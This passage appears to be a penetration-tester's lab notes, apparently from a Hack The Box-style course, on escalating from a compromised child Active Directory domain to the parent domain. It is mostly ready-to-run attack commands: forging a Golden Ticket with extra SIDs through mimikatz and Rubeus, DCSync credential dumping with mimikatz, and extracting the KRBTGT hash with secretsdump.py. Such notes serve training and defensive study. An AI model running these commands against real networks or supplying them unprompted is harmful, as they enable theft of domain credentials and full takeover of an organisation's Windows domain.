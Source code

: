 Before starting the attack, confirm no access to the file system of the DC in the parent domain:
```console
PS C:\zeropio> ls \\<DC COMPUTER NAME>.<PARENT DOMAIN>.local\c$
```

Using mimikatz we can start:
```console
PS C:\zeropio> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:<CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /krbtgt:<KRBTGT HASH CHILD DOMAIN> /sids:<ENTERPRISE ADMIN ROOT DOMAIN SID> /ptt
```

We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory:
```console
PS C:\zeropio> klist

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
```

From here, it is possible to access any resources within the parent domain:
```console
PS C:\zeropio> ls \\<DC COMPUTER NAME>.<PARENT DOMAIN>.local\c$
```

### ExtraSids Attack - Rubeus 

We can also perform the attack using Rubeus. Confirm that we cannot access the parent domain DC, as before. Using the data, we will use Rubeus:
```console
PS C:\htb>  .\Rubeus.exe golden /rc4:<KRBTGT HASH> /domain:<CHILD DOMAIN> /sid:<SID CHILD DOMAIN>  /sids:<ENTERPRISE ADMIN ROOT DOMAIN SID> /user:hacker /ptt
```

Once again, we can check that the ticket is in memory using the `klist` command.

### Performing a DCSync Attack 

We can perform a DCSync, targeting a Domain Admin user:
```console
PS C:\zeropio> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:<DOMAIN>\<USER>
```

## From Linux 

To do it in Linux, we will need the same information:
- the KRBTGT hash for the child domain
- the SID for the child domain
- a name of a user for the Golden Ticket (doesn't need to exist)
- the FQDN of the chield domain
- the SID of the Enterprise Admin group of the root domain.

Once we have control over the child domian, we can use **secretsdump.py** to DCSync and grab NTLM for KRBTGT:
```console
zero@pio$ secretsdump.py <CHILD DOMAIN>/<USER>@<IP> -just-dc-user <DOMAIN>/krbtgt
```
